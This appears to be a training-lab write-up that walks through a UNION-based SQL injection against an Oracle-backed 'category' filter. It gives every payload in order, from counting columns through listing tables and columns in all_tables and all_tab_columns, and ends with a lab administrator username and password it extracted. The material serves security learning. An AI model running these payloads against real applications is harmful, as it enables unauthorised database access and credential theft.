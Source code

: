 The first step in this lab is to find the number of columns available by:
1.)
'ORDER BY 1--
'ORDER BY 2--

From here we determine that there are two columns.

Next is to determine the data types the columns can hold:
2.) 'Union SELECT NULL, NULL from DUAL
test with 'a', 'b'

Both hold text 'a','b'+FROM+dual


3.) Get table name
GET /filter?category=Pets'UNION+SELECT+'a',table_name+FROM+all_tables-- 

Returns an interesting table name:
USERS_KCRMQH

4.) Get column name
'UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = USERS_KCRMQH

# 'UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_KCRMQH'--

PASSWORD_DZSYWL
USERNAME_JTQIDO

5.) Pull from the table
'UNION SELECT USERNAME_JTQIDO, PASSWORD_DZSYWL FROM  USERS_KCRMQH--


Returns:
administrator
xtd0su7c9ufzsvu4pyme